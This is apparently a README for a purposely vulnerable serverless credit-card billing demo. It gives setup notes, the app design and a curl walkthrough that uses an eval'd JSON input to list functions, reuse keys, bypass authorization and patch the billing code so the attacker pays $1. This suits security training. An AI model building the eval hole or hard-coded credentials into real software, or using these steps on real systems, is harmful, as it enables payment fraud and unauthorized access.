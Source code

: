 Setup notes

- After deploying the .js files and package.json file for each function, you'll need to go into the scm console <appname.scm.azurewebsites.net/DebugConsole>, go into the home/site/wwwroot/<functionName> directory and run `npm install`.  It'll take a long time.

- Sometimes calls to the API just seem to fail.  Can't reproduce locally.  Not sure, just try again.

- I've included all sorts of creds directly in source out of ~~laziness~~expediency.

- Running the below steps will leave the app in the broken state.  I haven't yet written easy scripts to reset things to 'beginning' state:
  * Billing needs function.json.bkup copied back over function.json
  * TotalView and Billing need their original creds (d:\home\data\Functions\secrets)
  * ?? (haven't fully tested)

-----------------------------------
Concept

Layout for the vulnerable app.

Maybe delivered with serverless?

Concept:
* This is a webapp to consolidate credit card payments.  
* Payments aggregate over the month, and at the end of the month a scheduled function sends a single bill out, thus avoiding additional credit card fees.

Endpoints / functions:
* Check my balance:
  * API endpoint
  * In:
    * The 'semi-public' key for the function
    * Their card number in json format {cardNumber: <cardnum>} which is eval'd
  * Returns: dates and amounts of purchases
  * This is the vulnerable endpoint
* Check what will be paid at the end of the month:
  * API endpoint
  * Requires master (or 'more secret') key to use
  * Returns dict of card #s to payments processed
* Billing function:
  * Cron for once monthly
  * Per customer, sums costs and then sends the bill out
  * Marks as billed? (allowing spoofing)
* API endpoint for writing charges? (not implemented yet, maybe unneccesary)
  * Change code to not accept your credit card?

Exploitation path:
* Discover arbitrary code execution in initial API endpoint:
  * Since path is read-only, we're not too worried about breaking things
  * exploit is just eval'ing some JSON to make things super simple
  * Information gained:
    * Master key / secure key (encrypted, haven't dug into how to decrypt)
    * List of other functions (we didn't know about the other ones)
    * General access
* Dump sources of other functions as wanted
* Take key
  * Use to trigger the general 'card info' function
* Modify billing function:
  * Change it from cron to API
  * Trigger billing at arbitrary times
  * Change source of billing function to only bill me $1
* Change source of 'charge writing' API to not accept my card (or someone else's?) (if fn exists)

SQL schema:
* Cards: ID, card#, API key
* Purchases: ID, CardID, Time, $amount

----------------------------

Routes: (plug the relevant keys in for your own? functions app)

vuln_api: takes your credit card #, returns just your charges.
`curl -X POST -d @benign.json -K vuln.config`
example: [{"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"amount":5.99,"date":"2017-06-17T00:00:00Z"}]

totalView: Doesn't take any arguments.  Returns the list of all charges.
`curl -X POST -d '{}' -K total.config`
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

billing: Sums up the cards to do the billing.  Can't be triggered via API, is triggered via cron.

Vulns: ===================================

`curl -X POST -d @print_return.json -K vuln.config`

example: "custom text"

List available functions with secret sets via list_functions:

`curl -X POST -d @list_functions.json -K vuln.config`

example: ["billing.json","host.json","httptriggerjs2.json","manualtriggerjs1.json","publicvuln.json","timertriggerjs1.json","totalview.json","totalview.json.bkup","totalview.json.orig"]

Try to run totalview:

`curl -X POST -d '{}' -K total_noauth.config`

example: this doesn't work because we don't have the key!

Change permissions on totalview: (they keys on disk are encrypted, but they're all encrypted against the same key, so we can just copy in our known working one!)

`curl -X POST -d @change_totalview_perms.json -K vuln.config`

example: "done"

After changing perms, run totalView again:

`curl -X POST -d '{}' -K total_noauth.config`

example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

Now what's Billing - let's read its function metadata:

`curl -X POST -d @read_billing_info.json -K vuln.config`

example: "{\r\n  \"bindings\": [\r\n    {\r\n      \"name\": \"myTimer\",\r\n      \"type\": \"timerTrigger\",\r\n      \"direction\": \"in\",\r\n      \"schedule\": \"0 0 0 1 * *\"\r\n    }\r\n  ],\r\n  \"disabled\": false\r\n}"

We can't call it by API since it's a cron job.  Let's change it to being API-able:

`curl -X POST -d @change_billing_to_api.json -K vuln.config`

Now change the permissions to use our known key like above:

`curl -X POST -d @change_billing_perms.json -K vuln.config`

Now we can query it via API:

`curl -X POST -d @benign.json -K billing.config`

example: [{"1234-5678-9012-3456":30.98},{"0000-0000-0000-0000":37.99}]

But we don't want to be billed, right?  Let's see how billing works by dumping the source:

`curl -X POST -d @read_billing_source.json -K vuln.config`

example: <bunch of js source>

Now let's put in something for our card:

`curl -X POST -d @patch_billing_code.json -K vuln.config`

example: "done"

And when we query billing again:

`curl -X POST -d @benign.json -K billing.config`

example: {"1234-5678-9012-3456":1,"0000-0000-0000-0000":37.99}


TODO:

- make it cooler by making vuln_api use an sql user that doesn't have creds to just do the further queries by itself (so we have to gain access to totalView)
